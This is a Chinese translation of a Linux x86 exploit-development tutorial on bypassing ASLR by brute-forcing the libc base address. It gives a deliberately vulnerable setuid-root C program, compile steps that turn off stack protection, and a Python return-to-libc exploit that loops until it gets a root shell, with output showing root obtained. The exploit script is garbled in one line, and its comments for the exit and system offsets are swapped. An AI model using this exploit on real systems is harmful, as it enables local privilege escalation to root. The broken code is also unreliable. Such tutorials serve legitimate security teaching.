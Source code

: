 ```yaml
---
title: "Linux (x86) Exploit 开发系列教程之七 绕过 ASLR -- 第二部分"
id: csdn71057216
---
```


# 绕过 ASLR – 第二部分

> 译者：[飞龙](https://github.com/wizardforcel)
> 
> 原文：[Bypassing ASLR – Part II](https://sploitfun.wordpress.com/2015/05/08/bypassing-aslr-part-ii/)
> 
> 本文承接 [@hackyzh](http://bbs.pediy.com/user-694899.htm) 翻译的[第六篇](http://bbs.pediy.com/thread-217107.htm)。

预备条件：

[经典的基于栈的溢出](http://bbs.pediy.com/thread-216868.htm)

VM 配置：Ubuntu 12.04 (x86)

这篇文章中，让我们看看如何使用爆破技巧，来绕过共享库地址随机化。

> 什么是爆破？

在这个技巧中，攻击者选择特定的 Libc 基址，并持续攻击程序直到成功。假设你足够幸运，这个技巧是用于绕过 ASLR 的最简单的技巧。

漏洞代码：

```
//vuln.c
#include <stdio.h>
#include <string.h>

int main(int argc, char* argv[]) {
 char buf[256];
 strcpy(buf,argv[1]);
 printf("%s\n",buf);
 fflush(stdout);
 return 0;
}
```

编译命令：

```
#echo 2 > /proc/sys/kernel/randomize_va_space
$gcc -fno-stack-protector -g -o vuln vuln.c
$sudo chown root vuln
$sudo chgrp root vuln
$sudo chmod +s vuln
```

让我们来看看，攻击者如何爆破 Libc 基址。下面是（当随机化打开时）不同的 Libc 基址：

```
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75b6000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7568000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7595000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75d9000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7542000)
$ ldd ./vuln | grep libc
 libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb756a000)
$
```

上面展示了，Libc 随机化仅限于 8 位。因此我们可以在最多 256 次尝试内，得到 root shell。在下面的利用代码中，让我们选择`0xb7595000`作为 Libc 基址，并让我们尝试几次。

利用代码：

```
#exp.py
#!/usr/bin/env python
import struct
from subprocess import call

libc_base_addr = 0xb7595000
exit_off = 0x00032be0             #Obtained from "readelf -s libc.so.6 | grep system" command.
system_off = 0x0003f060           #Obtained from "readelf -s libc.so.6 | grep exit" command.
system_addr = libc_base_addr + system_off
exit_addr = libc_base_addr + exit_off
system_arg = 0x804827d

#endianess convertion
def conv(num):
 return struct.pack("<I",numystem + exit + system_arg
buf = "A" * 268
buf += conv(system_addr)
buf += conv(exit_addr)
buf += conv(system_arg)

print "Calling vulnerable program"
#Multiple tries until we get lucky
i = 0
while (i < 256):
 print "Number of tries: %d" %i
 i += 1
 ret = call(["./vuln", buf])
 if (not ret):
  break
 else:
  print "Exploit failed"
```

运行上面的利用代码，我们会得到 root shell（在下面展示）：

```
$ python exp.py 
Calling vulnerable program
Number of tries: 0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
Exploit failed
...
Number of tries: 42
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
Exploit failed
Number of tries: 43
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`@]��{\�}�
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

注意：也可以爆破类似的栈和堆段的地址。